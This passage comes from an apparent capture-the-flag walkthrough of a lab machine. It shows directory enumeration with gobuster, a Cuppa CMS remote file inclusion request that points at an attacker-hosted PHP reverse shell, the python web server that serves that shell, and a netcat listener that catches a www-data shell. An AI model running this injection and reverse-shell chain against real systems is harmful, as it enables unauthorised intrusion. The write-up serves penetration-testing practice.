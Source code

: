 Running gobuster again against the directory reveals a administrator page.

```highlight
└──╼ $gobuster dir -u http://10.10.120.207/45kra2{REDACTED}/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.120.207/45kra2{REDACTED}/
[+] Threads:        50
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2021/01/24 16:48:27 Starting gobuster
===============================================================
/administrator (Status: 301)
===============================================================
2021/01/24 16:50:42 Finished
===============================================================
```

### Initial Access

Going to http://10.10.120.207/45kra2{REDACTED}/administrator/ takes us to a login page for Cuppa CMS. A quick Google reveals the [exploit](https://www.exploit-db.com/exploits/25971) which provides and local and remote file inclusion. 

Looking at the exploit we can simply request a URL with our shell code location. We can use this to get a reverse shell payload from our machine and then execute.

> http://target/cuppa/alerts/alertConfigField.php?urlConfig=http://www.shell.com/shell.txt?

On my machine I copied /usr/share/webshells/php/php-reverse-shell.php to my working directory and renamed it to shell.php, I updated the configuration to include my VPN IP and port 4444.

Then using python3 I started a http server to host the reverse shell payload and started a netcat listener on port 4444. In my browser I entered:

http://10.10.120.207/45kra2{REDACTED}/administrator/alerts/alertConfigField.php?urlConfig=http://{{ATTACKIP}}/shell.php

```highlight
└──╼ $sudo python3 -m http.server 80                                      
                                                                          
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...                  
10.10.120.207 - - [24/Jan/2021 16:57:15] "GET /shell.php HTTP/1.0" 200 -  
```

On my netcat listener I get a response and got a shell as 'www-data'.

```highlight
└──╼ $nc -nvlp 4444
listening on [any] 4444 ...
connect to [{{ATTACKIP}}] from (UNKNOWN) [10.10.120.207] 59292
Linux skynet 4.8.0-58-generic #63~16.04.1-Ubuntu SMP Mon Jun 26 18:08:51 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 10:57:15 up 22 min,  0 users,  load average: 0.00, 0.04, 0.06
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$   
```
